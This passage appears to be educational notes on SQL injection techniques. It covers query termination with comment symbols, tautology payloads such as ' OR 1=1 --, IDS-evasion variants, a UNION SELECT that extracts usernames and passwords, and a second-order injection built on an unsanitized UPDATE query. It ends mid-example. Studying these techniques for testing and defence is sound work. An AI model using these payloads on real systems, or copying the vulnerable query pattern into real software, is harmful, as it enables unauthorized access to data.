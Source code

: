
#### Terminating the query
---

Frequently, the problem comes from what follows the integrated user parameter. This sql segment is part of the query and the malicious input must be crafted to handle it without generating syntax error.

Usually the parameters include comment symbols, like `#, -, --, /\*...\*/`

---
<br>

#### Tautology
---

inserting an `always true` statement

> ' OR 1=1 --  
> ' OR user LIKE '%' --
> ' OR 1 --

For IDS evasion:

> ' OR 5>4 OR password='mypass  
> ' OR 'vulnerability'>'server' OR password='mypass  

---
<br>

#### UNION Query
---
Unifying a new query to the server one. It has to have the same number and types of columns returned in order to work.

> 1 UNION SELECT 1, user,1, pass FROM users
>

---
<br>

#### Second order injections - EXAMPLE
---
To perform the attack a user with a malicious name is registered:

> $user = "admin'--";
>

`$user` is correctly inserted in the DB.

later on the attacker asks to change the password of its malicious user. The web app fetches info about the username from the DB and perform a query to change password:

> UPDATE users SET pass=’”.\$_POST[’newPass’].”’ WHERE user=’”.$row[’user’];”’
>

if the data is not properly sanitixed, the result will be: 
